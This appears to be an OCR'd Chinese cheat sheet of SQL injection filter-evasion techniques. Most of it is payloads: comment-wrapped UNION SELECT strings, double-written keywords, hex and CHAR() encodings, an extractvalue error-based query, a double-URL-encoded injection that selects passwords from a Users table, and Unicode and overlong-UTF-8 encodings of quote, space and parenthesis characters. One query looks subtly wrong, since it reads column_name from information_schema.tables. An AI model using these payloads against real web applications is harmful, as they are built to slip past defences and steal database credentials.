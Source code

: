 **`%09 %0A %0B %0C %0D %A0 %20 /**/  /*!*/`**

**`1'/*!Union*//*!select*/1,2#`**

**`1'/*!Union*/select/*!1,2*/#`**

**`select username() from user where 1=1 and 2=2`**

> **可以写成**

**`select(username())from user where(1=1)and(2=2)`**

#### 绕过关键字

**双写关键字**

**对于针对替换关键字的绕过，我们可以使用双写关键字来绕过，例如`uniunionon`**

**十六进制**

**`select a from yz where b=0x32;`**

**`select * from yz where b=char(0x32);`**

**`select * from yz where b=char(0x67)+char(0x75)+char(0x65)+char(0x73)+char(0x74)`**

**`select column_name  from information_schema.tables where table_name="users"`**

**`select column_name  from information_schema.tables where table_name=0x7573657273`**

**`SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))`**

**ASCII**

**`or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)`**

> **双重编码绕过**

**`?id=1%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/1,2,password%252f%252a*/FROM%252f%252a*/Users--+`**

> **一些unicode编码举例：**

> **单引号：'**

**`%u0027 %u02b9 %u02bc`**

**`%u02c8 %u2032`**

**`%uff07 %c0%27`**

**`%c0%a7 %e0%80%a7`**

> **空白： **

**`%u0020 %uff00`**

**`%c0%20 %c0%a0 %e0%80%a0`**

> **左括号 (：**

**`%u0028 %uff08`**

**`%c0%28 %c0%a8`**
